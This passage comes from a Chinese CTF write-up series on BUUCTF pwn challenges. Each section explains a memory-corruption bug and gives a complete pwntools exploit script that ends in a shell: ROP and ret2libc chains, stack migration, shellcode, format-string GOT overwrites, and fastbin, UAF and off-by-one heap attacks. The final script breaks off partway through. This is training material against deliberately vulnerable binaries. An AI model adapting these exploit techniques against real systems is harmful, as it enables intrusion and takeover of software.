考虑到在`vuln()`函数中只分配了`0x10`个字节的空间给buf，但是后面的系统调用`write`会输出0x30个字节的内容，即除了我们的输入之外还会打印一些栈上的内容，其中前0x20个字节的内容分别为：0x10字节的buf、8字节的old_rbp（作为返回地址）、8字节的main函数中的`call vuln`指令的下一条指令的地址，剩下的0x10个字节则是栈上的一些其他的内容

我们使用gdb进行调试看看是什么内容：



可以看到`0x7fffffffdc60`上储存的内容即为`old_rbp`，`0x7fffffffdc68`上储存的内容为main函数中的`call vuln`指令的下一条指令的地址，而`0x7fffffffdc70`上储存的则是一个**地址**，我们很容易计算得出其与栈基址间的偏移量为**0x7fffffffdd78 - 0x7fffffffdc60 = 0x118**

那么我们只需要读取这个值再减去偏移量便可以**得到栈基址的地址**

## 解法1：ret2csu

考虑到存在**59号系统调用execve**，故考虑构造rop链通过`execve("/bin/sh")`以getshell

文件中不存在`"/bin/sh"`字符串，由于栈基址可知，故考虑手动输入到栈上

构造exp如下：

```
from pwn import *

mov_rax_59_ret = 0x4004e2
pop_rdi_ret = 0x4005a3
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40059a
mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12_add_2rbx = 0x400580
vuln_addr = 0x4004ed
syscall = 0x400517

payload1 = b'A'*0x10 + p64(vuln_addr)

p = process('./ciscn_s_3')
p.sendline(payload1)
p.recv(0x20)
sh_addr = u64(p.recv(8))-0x118
payload2 = b'/bin/sh'*2 + p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
payload2 += p64(0) + p64(0) + p64(sh_addr+0x50) + p64(0) + p64(0) + p64(0)
payload2 += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12_add_2rbx)
payload2 += p64(mov_rax_59_ret) + p64(pop_rdi_ret) + p64(sh_addr)
payload2 += p64(syscall)
p.sendline(payload2)
p.interactive() 
```

运行脚本即可getshell



## 解法2：SROP

> 咕了，下次再写

# 0x018.铁人三项(第五赛区)_2018_rop - ret2libc

惯例的`checksec`，只开了NX



拖入IDA分析



直接给了一个很大的溢出，但是没有直接getshell的gadget，故考虑构造rop链先泄露read函数真实地址再使用LibcSearcher寻找Libc版本最后构造rop链执行`system("/bin/sh")`以getshell

构造exp如下：

```
from LibcSearcher import *
from pwn import *
p = remote('node3.buuoj.cn',28409)#process('./2018_rop')
e = ELF('./2018_rop')
offset = 0x88
read_got = e.got['read']
write_plt = e.plt['write']

payload1 = offset * b'A' + p32(0xdeadbeef) + p32(write_plt) + p32(0x8048474) + p32(1) + p32(read_got) + p32(4)

p.sendline(payload1)
read_str = p.recv(4).ljust(4,b'\x00')
print(read_str)
read_addr = u32(read_str)

libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
sys_addr = libc_base + libc.dump('system')
sh_addr = libc_base  + libc.dump('str_bin_sh')

payload2 = offset * b'A' + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.sendline(payload2)
p.interactive() 
```



# 0x019.bjdctf_2020_babyrop - ret2csu + ret2libc

惯例`checksec`，只开了栈不可执行保护



拖入IDA进行分析



可以发现在`vuln()`函数处存在栈溢出

由于没有后面函数，故考虑ret2libc构造rop链执行`system("/bin/sh")`

构造exp如下：

```
from pwn import *
from LibcSearcher import *

p = remote('node3.buuoj.cn',28167) 
e = ELF('./bjdctf_2020_babyrop')

pop_rdi_ret = 0x400733
puts_plt = e.plt['puts']
puts_got = e.got['puts']
offset = 0x20

payload1 = offset*b'A' + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(e.sym['vuln'])

p.recv()
p.sendline(payload1)
puts_str = p.recvuntil(b'\nPull up',drop = True).ljust(8,b'\x00')
print(puts_str)
puts_addr = u64(puts_str)

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = offset*b'A' + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload2)

p.interactive() 
```

运行脚本，得到flag



# 0x01A.pwn2_sctf_2016 - integer overflow + ret2libc

惯例`checksec`，发现只开了NX保护



拖入IDA进行分析

在`vuln()`函数中使用`get_n()`函数读入4字节并使用`atoi()`转为数字，若是大于32则退出，否则再一次调用`get_n()`函数进行读入



不过我们可以发现在`get_n()`函数中，其所接收的第二个参数为`unsigned int`，若是我们读入数字`-1`则会发生整数溢出变成一个巨大的正数，那么在这里便存在溢出点了



文件本身不存在可以直接getshell的函数（并且附赠了一堆没用的gadget），故考虑**ret2libc**，首先泄漏出printf函数地址，再使用LibcSearcher得到libc，最后构造`system("/bin/sh")`即可

程序中存在`%s`字符串供打印



构造exp如下：

```
from pwn import *
from LibcSearcher import *

e = ELF('./pwn2_sctf_2016')

bss_addr = 0x804A040
fmtstr_addr = 0x8048702
printf_got = e.got['printf']
printf_plt = e.plt['printf']
main_addr = e.sym['main']
payload = b'A'*0x2c + p32(0xdeadbeef) + p32(printf_plt) + p32(main_addr) + p32(fmtstr_addr) + p32(printf_got)

p =remote('node3.buuoj.cn',29032)
p.sendline(b'-1')
p.sendline(payload)
p.recvuntil(b'You said')
p.recvuntil(b'\n')

printf_addr = u32(p.recv(4))
libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr - libc.dump('printf')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')
payload2 = b'A'*0x2c + p32(0xdeadbeef) + p32(sys_addr) +  5*p32(sh_addr)

p.sendline(b'-1')
p.sendline(payload2)
p.interactive() 
```

运行即可getshell



# 0x01B.others_shellcode

直接连接就有flag了…



# 0x01C.[HarekazeCTF2019]baby_rop2 - ret2csu + ret2libc

惯例的`checksec`，发现只开了NX


拖入IDA进行分析



主函数中存在溢出，不过没有可以利用的函数，故考虑ret2libc：先使用printf泄露read函数地址再用LibcSearcher得到libc最后构造rop链执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *

e = ELF('./babyrop2')

pop_rsi_r15_ret = 0x400731
pop_rdi_ret = 0x400733
fmtstr = 0x400790
read_got = e.got['read']
printf_plt = e.plt['printf']
main_addr = e.sym['main']
payload = b'A'*0x20 + p64(0xdeadbeef) + p64(pop_rsi_r15_ret) + p64(read_got) +p64(0) + p64(pop_rdi_ret) + p64(fmtstr) + p64(printf_plt) + p64(e.sym['main'])

p = remote('node3.buuoj.cn',25106)
p.recv()
p.sendline(payload)
str = p.recvuntil('\x7f')[-6:].ljust(8,b'\x00')
print(str)
read_addr = u64(str)
libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')
payload2 = b'A'*0x20 + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)

p.sendline(payload2)
p.interactive() 
```

运行，得到flag~~藏的位置好深啊~~



# 0x01D.ez_pz_hackover_2016 - ret2shellcode

惯例的`checksec`，保护全关，暗示我们可以为所欲为



拖入IDA进行分析

在`chall()`函数中给我们泄露了一个栈上地址，并读入1023字节，无法溢出



但是在vuln函数中会拷贝一次我们的输入，**可以溢出**



由于给了一个栈上地址，故考虑输入一段shellcode后跳转即可

需要注意的一个点是`vuln()`函数是**将传入的参数的地址作为参数传入memcpy的**，故实际上会额外拷贝0xec - 0xd0 = 0x1c字节，那么我们填充到ebp所需的padding长度其实只需要0x32 - 0x1c = 0x16字节



泄露出来的地址和我们拷贝到的地址上的shellcode间距为0x9ec - 0x9d0 = 0x1c，直接跳转过去即可，需要注意的是**因为memcpy拷贝了长达0x400字节的内容，会将我们第一次输入的数据尽数破坏，故我们只能向拷贝后的地址跳**





故构造exp如下：

```
from pwn import *
context.arch = 'i386'
p = process("./ez_pz_hackover_2016") 
offset = 0x16
verify = b"crashme\x00"

p.recvuntil("lets crash: ")
stack_leak = int(p.recvuntil('\n')[:-1], 16)
log.info("stack leak: " + hex(stack_leak))
payload = verify + b'A' * (offset - len(verify)) + p32(0xdeadbeef)
payload += p32(stack_leak - 0x1c) + asm(shellcraft.sh())

p.sendline(payload)
p.interactive() 
```

运行，得到flag



# 0x01E.ciscn_2019_es_2 - ret2text + stack migration

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



存在溢出，且读取两次输出两次，故第一次我们可以填充0x28字节获得一个栈上地址



存在system函数

由于溢出只有8个字节，而我们能够获得栈上地址，故考虑进行**栈迁移**，在栈上构造ROP链

题目中只给了`system()`函数，没给`/bin/sh`字符串，不过由于栈上地址可知，故我们可以将之读取到栈上

gdb调试可知我们的输入与所泄露地址间距为0xe18 - 0xde0 = 0x38


故构造exp如下：

```
from pwn import *
context.arch = 'i386'
p = remote("node3.buuoj.cn", 25040) 
e = ELF("./ciscn_2019_es_2")
offset = 0x28
leave_ret = 0x80485FD
payload = b'A' * offset
p.recv()
p.send(payload)
p.recvuntil(payload)
stack_leak = u32(p.recv(4))
log.info(hex(stack_leak))
payload2 = p32(e.sym['system']) + p32(0xdeadbeef) + p32(stack_leak-0x38 + 12) + b'/bin/sh\x00'
payload2 += b'A' * (offset - len(payload2)) + p32(stack_leak - 0x38 - 4) + p32(leave_ret)
p.sendline(payload2)
p.interactive() 
```

运行即得flag



# 0x01F.[Black Watch 入群题]PWN - ret2libc + stack migration

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



第一次往bss段上读入0x200字节，第二次往栈上读入0x20字节，**只能刚好溢出8个字节**

故考虑进行栈迁移将栈迁移到bss段上

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

故构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = remote("node3.buuoj.cn", 29227) 
e = ELF("./spwn")
bss_addr = 0x0804A300
leave_ret = 0x8048511
payload1 = p32(e.plt['write']) + p32(e.sym['main']) + p32(1) + p32(e.got['write']) + p32(4)
payload2 = b'A' * 0x18 + p32(bss_addr - 4) + p32(leave_ret)

p.send(payload1)
p.recvuntil(b'What do you want to say?')
p.send(payload2)

write_addr = u32(p.recv(4))
log.info(hex(write_addr))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')
payload3 = p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)

p.recvuntil(b"What is your name?")
p.send(payload3)
p.recvuntil(b'What do you want to say?')
p.send(payload2)
p.interactive() 
```

运行即得flag



# 0x020.jarvisoj_level3 - ret2libc

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



存在120字节的溢出

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./level3') 
e = ELF('./level3')
offset = 0x88

payload1 = b'A' * offset + p32(0xdeadbeef) + p32(e.plt['write']) + p32(e.sym['main']) + p32(1) + p32(e.got['write']) + p32(4)

p.recv()
p.send(payload1)
write_addr = u32(p.recv(4))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A'*offset + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)

p.sendline(payload2)
p.interactive() 
```

运行即得flag



> 感觉ret2libc的题基本都大同小异啊…

# 0x021.[BJDCTF 2nd]test - Linux基础知识

题目只给了一个ssh，尝试进行连接



尝试一下发现我们无法直接获得flag



查看一下文件权限，发现只有`ctf_pwn`用户组才有权限



提示告诉我们有一个可执行文件test与其源码，尝试阅读



该程序会将我们的输入作为命令执行，但是会过滤一部分字符

尝试使用如下指令查看剩余的可用命令

```
`$ ls /usr/bin/ /bin/ | grep -v -E "n|e|p|b|u|s|h|i|f|l|a|g"` 
```



我们发现在test程序中有效用户组为`ctf_pwn`，故使用该程序获取一个shell即可获得flag





# 0x022.[BJDCTF 2nd]r2t4 - fmtstr

惯例的`checksec`，开了NX和canary



拖入IDA进行分析



main中存在溢出，且存在格式化字符串漏洞



存在可以读取flag的后门函数

简单尝试可以发现格式化字符串是位于栈上的第六个参数



故考虑利用格式化字符串进行任意地址写劫持got表中的__stack_chk_fail为后门函数地址即可

需要注意的是`printf`函数遇到`\x00`会发生截断，故不能直接使用fmtstr_payload，而是要用手写的格式化字符串

构造exp如下：

```
from pwn import *
p = process('./r2t4')
e = ELF('./r2t4')
backdoor = 0x400626
payload = b'%64c%9$hn%1510c%10$hnaaa' + p64(e.got['__stack_chk_fail']+2) + p64(e.got['__stack_chk_fail'])
payload.ljust(100,b'A')
p.sendline(payload)
p.interactive() 
```

获得flag



# 0x023.jarvisoj_fm - fmtstr

惯例的`checksec`，开了NX和canary



拖入IDA进行分析，存在格式化字符串漏洞



当x为4时直接getshell，x在bss段上


格式化字符串在第13个参数的位置


故构造exp如下：

```
from pwn import *

payload = fmtstr_payload(11,{0x804A02C:0x4})

p = remote('node3.buuoj.cn',25865)
p.sendline(payload)
p.interactive() 
```

运行即得flag



# 0x024.jarvisoj_tell_me_something - ret2csu + ret2libc

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



直接就有一个很大的溢出

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *

p = remote('node3.buuoj.cn',26270)
e=  ELF('./guestbook')
offset = 0x88
pop_rdi_ret = 0x4006F3
pop_rsi_r15_ret = 0x4006f1

payload1 = b'A'* offset + p64(pop_rsi_r15_ret) + p64(e.got['write']) + p64(0) + p64(pop_rdi_ret) + p64(1) + p64(e.plt['write']) + p64(e.sym['main'])
p.sendline(payload1)
p.recvuntil(b'I have received your message, Thank you!\n')
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A'* offset + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload2)
p.interactive() 
```

运行即得flag



# 0x025.[BJDCTF 2nd]ydsneedgirlfriend2 - overwrite

惯例的`checksec`，开了NX和canary



拖入IDA进行分析



看起来是一道堆题，存在分配、释放、打印堆块的功能

同时我们可以发现程序中存在后门函数



题目提示是Ubuntu18，也就是libc2.27，引入了tcache机制，但是没有tcache double free验证的版本

add函数中似乎只能分配7个堆块，空间有点紧张，而且每次分配后都会覆盖掉原来的堆块指针



好在free后未将指针置0，**存在Use After Free**漏洞



同时我们可以发现`show()`函数中调用的是girlfriend[0][1]中的数据作为函数指针来执行，而**girlfriend**本身就是一个指针，在初始时分配的是0x10大小的堆块



故我们只需要初始化girlfriend后free掉girlfriend再重新分配一个0x10大小的堆块即可改写该指针为后门函数地址后再show即可getshell

构造exp如下：

```
from pwn import *
p = process('./girlfriend') 
backdoor = 0x400D86

def cmd(command:int):
    p.recvuntil(b'u choice :')
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Please input the length of her name:")
    p.send(str(size).encode())
    p.recvuntil(b"Please tell me her name:")
    p.send(content)

def delete(index:int):
    cmd(2)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def show(index:int):
    cmd(3)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def exp():
    new(0x80, "arttnba3")
    delete(0)
    new(0x10, p64(0) + p64(backdoor))
    show(0)
    p.interactive()

if __name__ == "__main__":
    exp() 
```

运行即可getshell



# 0x026.jarvisoj_level4 - ret2libc

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



直接就有一个很大的溢出

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./level4') 
e = ELF('./level4')
offset = 0x88

payload1 = b'A' * offset + p32(0xdeadbeef) + p32(e.plt['write']) + p32(e.sym['main']) + p32(1) + p32(e.got['write']) + p32(4)

p.send(payload1)
write_addr = u32(p.recv(4))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A'*offset + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)

p.sendline(payload2)
p.interactive() 
```

运行即得flag



# 0x027.[V&N2020 公开赛]simpleHeap - off by one + fastbin attack + one_gadget

又是一道堆题来了，~~看来往后应该都是堆题为主了~~，不出所料，保 护 全 开



同时题目提示Ubuntu16，也就是说没有tcache

拖入IDA进行分析



这是一道有着分配、打印、释放、编辑堆块的功能的堆题，不难看出我们只能分配10个堆块，不过没有tcache的情况下，空间其实还是挺充足的

漏洞点在edit函数中，**会多读入一个字节，存在off by one漏洞**，利用这个漏洞我们可以**修改一个堆块的物理相邻的下一个堆块的size**



由于题目本身仅允许分配大小小于111的chunk，而进入unsorted bin需要malloc(0x80)的chunk，故我们还是考虑利用off by one的漏洞改大一个chunk的size送入unsorted bin后分割造成overlapping的方式获得libc的地址



因为刚好fastbin attack所用的chunk的size为0x71，故我们将这个大chunk的size改为`0x70 + 0x70 + 1 = 0xe1`即可

> fastbin attack中分配到__malloc_hook附近的fake chunk通常都是malloc(0x60)，也就是size == 0x71，这是因为在__malloc_hook - 0x23这个地址上fake chunk的SIZE的位置刚好是0x`7f`，满足了绕过fastbin的size检查的要求
> 
> 

传统思路是将__malloc_hook改为one_gadget以getshell，但是直接尝试我们会发现根本无法getshell



这是因为one_gadget并非任何时候都是通用的，都有一定的先决条件，而当前的环境刚好不满足one_gadget的环境



那么这里我们可以尝试使用realloc函数中的gadget来进行压栈等操作来满足one_gadget的要求，该段gadget执行完毕后会跳转至__realloc_hook（若不为NULL）



而__realloc_hook和__malloc_hook刚好是挨着的，我们在fastbin attack时可以一并修改



故考虑修改__malloc_hook跳转至realloc函数开头的gadget调整堆栈，修改__realloc_hook为one_gadget即可getshell

构造exp如下：

```
from pwn import *
p = remote('node3.buuoj.cn', 28978)
libc = ELF('./libc-2.23.so')
context.log_level = 'DEBUG'
one_gadget = 0x4526a

def cmd(command:int):
    p.recvuntil(b"choice: ")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"size?")
    p.sendline(str(size).encode())
    p.recvuntil(b"content:")
    p.send(content)

def edit(index:int, content):
    cmd(2)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content:")
    p.send(content)

def show(index:int):
    cmd(3)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())

def free(index:int):
    cmd(4)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())

def exp():

    new(0x18, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 

    edit(0, b'A' * 0x10 + p64(0) + b'\xe1') 
    free(1)
    new(0x60, "arttnba3") 

    show(2)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 88
    malloc_hook = main_arena - 0x10
    libc_base = main_arena - 0x3c4b20
    log.success("libc addr: " + hex(libc_base))

    new(0x60, "arttnba3") 
    free(2)
    free(1)
    free(4)

    new(0x60, p64(libc_base + libc.sym['__malloc_hook'] - 0x23)) 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, b'A' * (0x13 - 8) + p64(libc_base + one_gadget) + p64(libc_base + libc.sym['__libc_realloc'] + 0x10)) 

    cmd(1)
    p.sendline(b'1')
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即可get shell



> 不得不说V&N出的题质量还是可以的，虽然说可能对大佬们来说只是一道简单题，但这确实让我这个大一的萌新受益匪浅XD

# 0x028.jarvisoj_level3_x64 - ret2csu + ret2libc

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



直接就有一个很大的溢出

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

两个小gadget的地址如下



故构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./level3_x64') 
e = ELF('./level3_x64')
write_got = e.got['write']
write_plt = e.plt['write']
offset = 0x80
pop_rsi_r15_ret = 0x4006b1
pop_rdi_ret = 0x4006b3
payload1 = b'A' * offset + p64(0xdeadbeef) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(1) + p64(write_plt) + p64(e.sym['main'])

p.recv()
p.sendline(payload1)
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A' * offset + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload2)
p.interactive() 
```

运行即可getshell



# 0x029.bjdctf_2020_babystack2 - integer overflow + ret2text

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析



read读入时会把signed转成unsigned， 输入-1即可绕过检测

同时我们发现存在后门函数，返回至此即可



构造exp如下：

```
from pwn import *
p = process('./bjdctf_2020_babystack2') 
backdoor = 0x400726
offset = 0x10
payload = b'A' * offset + p64(0xdeadbeef) + p64(backdoor)

p.sendline(str(-1).encode())
p.sendline(payload)
p.interactive() 
```

运行即可getshell



# 0x02A.hitcontraining_uaf - UAF + fastbin double free

~~漏洞直接在题目名称里说明了事UAF~~

惯例的`checksec`，发现只开了栈不可执行保护



拖入IDA进行分析，我们可以发现这个程序有着**分配、打印、释放堆块的功能**

不难看出在添加堆块时首先会分配一个8字节大小的chunk，该chunk前4字节储存一个函数指针，后4字节则储存实际分配的chunk的指针



在打印堆块时会调用小chunk中的函数指针来打印堆块内容



同时我们可以发现在释放堆块的过程中并未将堆块指针置0，**存在UAF漏洞**



同时我们可以发现存在后门函数



故考虑通过fastbin double free分配到同一个堆块后改写函数指针为后门函数地址后打印即可getshell

构造exp如下：

```
from pwn import *
p = process('./hacknote') 
backdoor = 0x8048945

def cmd(command:int):
    p.recvuntil(b"Your choice :")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Note size :")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content :")
    p.send(content)

def free(index:int):
    cmd(2)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def show(index:int):
    cmd(3)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def exp():
    new(8, "arttnba3") 
    free(0)
    free(0)
    new(0x20, "arttnba3") 
    new(8, p32(backdoor)) 
    show(0)
    p.interactive()

if __name__ == "__main__":
    exp() 
```

运行即可getshell



# 0x02B.[ZJCTF 2019]EasyHeap - fastbin attack

惯例的`checksec`，开了NX和canary



拖入IDA进行分析，可以发现该程序存在分配、编辑、释放堆块的功能

漏洞点在于编辑堆块的地方，可以输入任意长度内容造成堆溢出



利用这个漏洞我们可以修改fastbin中的fd分配fake chunk来进行任意地址写

在bss段附近我们可以找到一个size合适的地方



由于plt表中就有system函数，故考虑分配一个bss段上的fake chunk后修改任一堆块指针为`free@got`后修改`free@got`为`system@plt`后free掉一个内容为`"/bin/sh\x00"`的chunk即可get shell



构造exp如下：

```
from pwn import *
p = remote('node3.buuoj.cn',26930)
e = ELF('./easyheap')
backdoor = 0x8048945
context.log_level = 'DEBUG'

def cmd(command:int):
    p.recvuntil(b"Your choice :")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Size of Heap : ")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content of heap:")
    p.send(content)

def edit(index:int, size:int, content):
    cmd(2)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())
    p.recvuntil(b"Size of Heap : ")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content of heap : ")
    p.send(content)

def free(index:int):
    cmd(3)
    p.recvuntil(b"Index :")
    p.sendline(str(index).encode())

def exp():
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 

    free(2)
    payload = b'A' * 0x60 + p64(0) + p64(0x71) + p64(0x6020a0 - 3 + 0x10)
    edit(1, 114514, payload)
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 

    payload2 = b'\xaa' * 3 + p64(0) * 4 + p64(e.got['free'])
    edit(5, 0x100, payload2)
    edit(0, 0x10, p64(e.plt['system']))

    new(0x60, b'/bin/sh\x00')
    free(6)
    p.interactive()

if __name__ == "__main__":
    exp() 
```

运行即可getshell



> 其实有一个cat flag的后门函数，不过pwn的最终目的自然是getshell，~~所以这个后门函数对👴来说不存在的~~

# 0x02C.babyfengshui_33c3_2016 - got table hijack

~~堆题集中地带请小心~~

惯例的`checksec`，开了NX和canary



拖入IDA进行分析



我们不难看出分配堆块时所生成的大致结构应当如下，且**该结构体malloc的大小为0x80，处在unsorted bin 范围内**



漏洞点在于对输入长度的检测，它是检测的是**我们所输入的长度是否大于从description chunk的addr到struct chunk的prev_size的长度**



在常规情况下我们似乎只能够覆写掉PREV_SIZE的一部分，不痛不痒

但是考虑这样的一种情况：我们先分配两个大块（chunk*4，其中第一个块的size要在unsorted范围内），之后释放掉第一个大块，再分配一个size更大的块，unsorted bin内就会从这个大chunk（由两个chunk合并而来）中切割一个大chunk给到description，之后再从下方的top chunk切割0x90来给到struct，这个时候**由于对length的错误判定就会导致我们有机会覆写第二个大块中的内容**



故考虑先覆写第二个大块中的description addr为free@got后泄漏出libc的基址，后再修改free@got为system函数地址后释放一个内容为`"/bin/sh"`的chunk即可通过`system("/bin/sh")`来get shell

构造exp如下：

```
from pwn import *
p = process('./babyfengshui_33c3_2016') 
e = ELF('./babyfengshui_33c3_2016')
libc = ELF('./libc-2.23.so')

def cmd(command:int):
    p.recvuntil(b"Action: ")
    p.sendline(str(command).encode())

def new(size:int, name, length:int, descryption):
    cmd(0)
    p.recvuntil(b"size of description: ")
    p.sendline(str(size).encode())
    p.recvuntil(b"name: ")
    p.sendline(name)
    p.recvuntil(b"text length: ")
    p.sendline(str(length).encode())
    p.recvuntil(b"text: ")
    p.sendline(descryption)

def free(index:int):
    cmd(1)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())

def show(index:int):
    cmd(2)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())

def edit(index:int, length:int, descryption):
    cmd(3)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())
    p.recvuntil(b"text length: ")
    p.sendline(str(length).encode())
    p.recvuntil(b"text: ")
    p.sendline(descryption)

def exp():
    new(0x80, "arttnba3", 0x10, "arttnba3") 
    new(0x10, "arttnba3", 0x10, "arttnba3") 
    new(0x10, "arttnba3", 0x10, "/bin/sh\x00") 
    free(0)

    big_size = 0x80 + 8 + 0x80
    padding_length = 0x80 + 8 + 0x80 + 8 + 0x10 + 8
    new(big_size, "arttnba3", padding_length + 4, b'A' * padding_length + p32(e.got['free'])) 
    show(1)

    p.recvuntil(b"description: ")
    free_addr = u32(p.recv(4))
    libc_base = free_addr - libc.sym['free']

    edit(1, 0x10, p32(libc_base + libc.sym['system']))
    free(2)
    p.interactive()

if __name__ == "__main__":
    exp() 
```

运行即可get shell



> 以前做堆都是64位起手，这32位的堆题属实把我坑到了，~~我愣是拿着64位的libc怼了半天，以及毫不思索就写的0x10的chunk头~~
> 
> 本题原题来自于C3CTF，歪国人的题目质量其实还是可以的（当然现在我也就只能写得出签到题233333

# 0x02D.picoctf_2018_rop chain - ret2libc

惯例的`checksec`， 只开了NX保护



拖入IDA进行分析


很大很直接的一个溢出的漏洞

由于没有能直接getshell的gadget，还是考虑ret2libc：构造rop链泄露libc基址后执行`system("/bin/sh")`即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./PicoCTF_2018_rop_chain') 
e = ELF('./PicoCTF_2018_rop_chain')
offset = 0x18

payload1 = b'A' * offset + p32(0xdeadbeef) + p32(e.plt['puts']) + p32(e.sym['main']) + p32(e.got['puts'])

p.recv()
p.sendline(payload1)
puts_addr = u32(p.recv(4))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
sh_addr = libc_base + libc.dump('str_bin_sh')

payload2 = b'A' * offset + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.sendline(payload2)
p.interactive() 
```

运行即可get shell



# 0x02E.bjdctf_2020_babyrop2 - fmtstr + ret2libc

惯例的`checksec`，开了NX和canary



在gift函数中可以泄露canary



在vuln中直接就有一个溢出



那么先泄露canary再ret2libc即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./bjdctf_2020_babyrop2') 
e = ELF('./bjdctf_2020_babyrop2')
offset = 0x20 - 8
pop_rdi_ret = 0x400993

payload1 = '%7$p'
p.recv()
p.sendline(payload1)
canary = int(p.recvuntil('\n', drop = True), 16)
p.recv()

